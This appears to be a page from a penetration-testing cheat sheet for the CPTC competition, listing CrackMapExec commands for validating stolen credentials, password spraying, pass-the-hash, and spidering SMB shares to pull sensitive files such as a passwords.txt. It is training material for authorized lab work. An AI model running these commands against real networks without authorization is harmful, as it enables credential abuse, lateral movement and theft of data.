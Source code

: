 **CPTC Tip:** Create a target list immediately. Save all discovered hosts to files for later pivoting.

---

### Phase 2: Credential Validation (After obtaining creds)

```bash
# Test single credential across network
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!'

# Test credential with domain specification
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' -d CORP

# Password spraying (CAREFUL - avoid lockouts!)
crackmapexec smb 10.10.10.1 -u users.txt -p 'Winter2024!' --continue-on-success

# Use hash instead of password (Pass-the-Hash)
crackmapexec smb 10.10.10.0/24 -u 'administrator' -H 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0'

# Local authentication attempt (useful for local admin reuse)
crackmapexec smb 10.10.10.0/24 -u 'administrator' -p 'Password123' --local-auth

# Check where domain user has local admin rights
crackmapexec smb targets.txt -u 'jsmith' -p 'Summer2024!' -d CORP
```

**Success Indicators:**
- `(Pwn3d!)` = Local admin access achieved
- Green `[+]` = Valid credentials
- Red `[-]` = Invalid credentials

**CPTC Lockout Prevention:**
```bash
# Check password policy BEFORE spraying
crackmapexec smb 10.10.10.1 -u 'guest' -p '' --pass-pol

# Single password spray with delays
crackmapexec smb 10.10.10.0/24 -u users.txt -p 'Winter2024!' --continue-on-success --jitter 5
```

---

### Phase 3: Deep Enumeration (Post-credential acquisition)

#### SMB Share Enumeration
```bash
# List all shares with read/write permissions
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' --shares

# Spider shares for sensitive files (auto-download specific patterns)
crackmapexec smb 10.10.10.50 -u 'jsmith' -p 'Summer2024!' -M spider_plus -o READ_ONLY=false

# Search for specific file patterns in shares
crackmapexec smb 10.10.10.50 -u 'jsmith' -p 'Summer2024!' --spider C$ --pattern txt,pdf,docx

# Dump specific files from shares
crackmapexec smb 10.10.10.50 -u 'jsmith' -p 'Summer2024!' --get-file 'C$\Users\admin\Desktop\passwords.txt' ./passwords.txt
```
